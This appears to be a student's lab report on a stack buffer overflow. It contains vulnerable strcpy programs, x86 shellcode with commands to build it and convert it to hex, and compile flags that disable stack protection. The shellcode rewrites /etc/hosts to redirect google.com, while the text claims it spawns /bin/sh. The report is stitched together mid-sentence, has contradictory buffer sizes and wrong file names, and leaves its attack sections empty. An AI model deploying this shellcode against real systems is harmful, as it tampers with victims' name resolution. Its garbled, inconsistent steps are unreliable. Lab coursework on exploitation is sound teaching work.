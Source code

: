 # Lab #1,22110067, Nguyen Quang Sang, INSE331280E_02FIE
# Task 1: Software buffer overflow attack
## Compiling the code
*Given the code below*
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
Now, we have to execute it as # Code injection using Buffer Overflow

```c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
    char buf[64];
    if (argc == 1)
        printf("missing argument\n");
    else
        strcpy(buf, argv[1]);
    printf("buf: 0x%x\n", (unsigned int)buf);
    return 0;
}
```

Target: Inject a snippet of code into the program. In this lab, we will inject a snippet of assembly code to spawn a new shell.

## 1. Write shellcode

### 1.1. Write shellcode

We will write a program in assembly language. This program will spawn a new shell `/bin/sh`. The program is saved as `shellcode.asm`.

```assembly
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

**Compile the program**

To compile the program, run the following script:

```bash
nasm -g -f elf shellcode.asm
```

A new file `shellcode.o` is created.

And to link the the code to create executable file:

```bash
ld -m elf_i386 -o shellcode shellcode.o 
```

**Result**



A new file `shellcode` is created.

---

### 1.2. Generate hex string

To inject the above assembly code snippet, we need to generate the hex values so that we can use those values as input.

**Print string onto terminal**

Run the following script to generate the hex string of shellcode and print it onto terminal.

```bash
for i in $(objdump -d sh |grep "^ "|cut -f2); do echo -n '\x'$i; done; echo
```

Result:


**Generate binary file**

Another method is to created a binary file of shellcode if injecting by reading the file

```bash
for i in $(objdump -d sh |grep "^ " |cut -f2); do echo -ne '\x'$i >> shellcode.bin; done;
```

Result


---

### 1.3. Calculations

We need to estimate the size of vulnerable program with input strings of various length.

First, the program must be compiled with option `-fno-stack-protector` to disable the stack protector. Also, we need to allow the program to execute code on stack with option `-z execstack`.

```bash
gcc vuln.c -o vuln.o -fno-stack-protector -z execstack -mpreferred-stack-boundary=3 
```
Secondly, estimate the buffer size of the program. Notice that there is a char variable named `buf` with the size of 64 bytes. The following picture represent the stack frame of the `main()` function of the vulnerable program.



We can easily see that from `esp` to `eip`, there are 24 bytes, with 16 bytes of `buf`, 4 bytes of `ebp`, and 4 bytes of `eip`.

 Now we need to count how many bytes there are. A trick to do it fast is using `Ctrl + F` to find `x`.


The program is 77 bytes long. When we inject the hex string of the program into the stack, it takes over 77 bytes over 24 bytes of `buf`. To execute the shellcode through a buffer overflow, we need to overwrite the return address on the stack so that, instead of returning to the original caller (or exit), the program jumps to the location in memory where the shellcode is stored—in this case, the `esp` (stack pointer).

We really have a problem here, do we?

## 2. Preparing for the attack



## 3. Attack


**Explain**

